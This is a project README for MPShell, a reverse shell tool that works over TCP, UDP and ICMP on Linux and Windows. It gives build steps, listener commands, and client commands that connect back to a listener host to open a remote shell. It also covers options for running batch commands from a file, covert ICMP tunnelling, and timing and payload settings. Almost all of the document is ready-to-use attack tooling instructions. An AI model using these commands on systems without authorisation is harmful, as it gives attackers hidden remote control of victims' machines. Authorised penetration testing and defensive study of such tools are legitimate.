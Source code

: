 # MPShell
Multi-protocol (TCP, UDP, ICMP) multi-OS reverse shell

- supports TCP, UDP & ICMP protocols
- works on Linux & Windows
- supports command input from a file and result output to a file

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/tcp_server.png)

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/icmp_server_files.png)

---

**Building**
```angular2html
git clone https://github.com/FilipBlazekovic/mpshell.git
cd mpshell

# Building linux reverse shell listener
cd MPListener
make

# Building linux reverse shell client
cd MPShell-linux
make

# Building windows reverse shell client (needs to be built on windows)
cd MPShell-windows
make

```

---

**Starting a TCP listener**

```
./MPListener --protocol=tcp --port=8080
```

To start a TCP listener that accepts a list of commands that will be executed when the client connects from a file (one command per line) and writes the result to a file, `--command-file` & `--result-file` options are used. After all the commands have been executed, input falls back to stdin. Output can then also be redirected to stdout by using `$close-output` command.

```
./MPListener --protocol=tcp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt
```

---

**Starting a UDP listener**

```
./MPListener --protocol=udp --port=8080
./MPListener --protocol=udp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt
```

---

**Starting a ICMP listener**

To start a ICMP listener, root is required, given that raw sockets are used, and automatic ICMP kernel replies need to be disabled. Root is only required on the server side for ICMP protocol. On the client side non-raw ICMP sockets are used `socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)` if the user is allowed to use them based on the contents of `/proc/sys/net/ipv4/ping_group_range` file.

```
./MPListener --protocol=icmp
./MPListener --protocol=icmp --command-file=/path/commands.txt --result-file=/path/result.txt
```

---

**Starting a reverse shell**

```
./MPShell --protocol=tcp --host=192.168.0.15 --port=8080
./MPShell --protocol=udp --host=192.168.0.15 --port=8080
./MPShell --protocol=icmp --host=192.168.0.15
```

---

**Setting additional options for a reverse shell**

The following line sets the read timeout to 1 second, sleep between packets (when there is no payload to send) to 500 ms, and the payload size to 1000 bytes.

```./MPShell --protocol=udp --host=192.168.0.15 --port=8080 --timeout=2 --sleep=500 --payload-size=1000```
